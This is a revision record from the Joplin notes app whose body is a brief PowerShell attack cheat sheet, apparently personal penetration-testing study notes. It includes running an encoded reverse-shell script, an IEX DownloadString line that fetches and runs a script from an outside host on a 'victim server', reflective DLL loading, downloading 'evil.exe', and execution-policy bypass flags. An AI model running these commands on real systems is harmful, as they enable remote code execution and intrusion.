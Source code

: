 id: 7f64c3c33f5746cf8cb4443c8711b9b2
parent_id: 
item_type: 1
item_id: 0b8ee4117c0148e0a7b01a989a57494f
item_updated_time: 1646016691700
title_diff: "[{\"diffs\":[[1,\"069c62b2fe97431686d1072c2f9241aa\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"PowerShell\\\r\\\n\\\r\\\nRunning Encoded Powershell scripts\\\r\\\n\\\r\\\n> powershell.exe -E (Get-Content '.\\\\\\\\encoded-rshell.ps1' -Raw)\\\r\\\n\\\r\\\nDownload the PowerShell script to run in the victim server directly (instead of downloading a file)\\\r\\\n\\\r\\\n> \\\"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')\\\"\\\r\\\n\\\r\\\nUse a DLL and run it\\\r\\\n\\\r\\\n> \\\\[Reflection.Assembly\\\\]::LoadFile(\\\"C:\\\\\\\\&lt;File&gt;\\\")\\\r\\\n> \\\r\\\n> \\\\[Waston.Program\\\\]::Main()\\\r\\\n\\\r\\\nDownload a file\\\r\\\n\\\r\\\n> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'new-exploit.exe')\\\r\\\n\\\r\\\nAdd the execution bypass if required (-nop, -ExecutionPolicy Bypass -NoLogo)\\\r\\\n\\\r\\\nid: 069c62b2fe97431686d1072c2f9241aa\\\r\\\nparent_id: 819fca2060d64809bbdac4fc93fdd86a\\\r\\\ncreated_time: 2022-01-19T10:01:33.444Z\\\r\\\nupdated_time: 2022-01-28T01:52:39.163Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 1642586493444\\\r\\\nuser_created_time: 2022-01-19T10:01:33.444Z\\\r\\\nuser_updated_time: 2022-01-28T01:52:39.163Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1295}]"
metadata_diff: {"new":{"id":"0b8ee4117c0148e0a7b01a989a57494f","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016691691,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.405Z
created_time: 2022-02-28T02:54:21.405Z
type_: 13